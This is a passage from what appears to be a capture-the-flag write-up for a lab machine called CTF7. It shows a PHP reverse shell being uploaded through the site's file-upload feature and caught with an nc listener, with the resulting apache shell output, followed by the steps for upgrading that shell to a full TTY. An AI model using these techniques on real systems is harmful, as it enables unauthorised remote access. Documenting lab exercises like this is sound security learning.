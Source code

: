 We can use this feature to upload a php reverse shell, that executes on the machine's side, and connects back to us. We could use the metasploit payload, but I like to use the built-in version of it which can be accessed in kali at the `/usr/share/webshells/php/php-reverse-shell.php` directory. Our dirsearch scan also revealed the `/assets/` directory. This is where files are uploaded on the webserver. We can click on the uploaded reverse shell, and get a connection:
```
kali@maxtor:~/Writeups/CTF7$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.8.126] from (UNKNOWN) [192.168.8.156] 41049
Linux localhost.localdomain 2.6.32-279.el6.i686 #1 SMP Fri Jun 22 10:59:55 UTC 2012 i686 i686 i386 GNU/Linux
 12:57:53 up 9 min,  0 users,  load average: 0.00, 0.06, 0.06
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
sh: no job control in this shell
sh-4.1$ whoami; id
whoami; id
apache
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```

We can use Darkstar's guide to upgrading our shell:

1. The first thing to do is use `python -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better-featured 	bash shell. At this point, our shell will look a bit prettier, but we still won’t be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
    
2. Step two is: `export TERM=xterm` – this will give us access to term commands such as clear.
    
3. Finally (and most importantly) we will background the shell using `Ctrl + Z`. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

From here, I found a local privilige escalation exploit, however I was unable to get it working, if you used this exploit and it worked, than it's something on my side. Anyways, that wasn't the only way in. We knew there were users on the website from the website at port `8080`, by clicking on the `Users` tab:

![Users](https://github.com/ctrllevi/ctrllevi.github.io/blob/main/_posts/images/CTF7/users.png?raw=true)
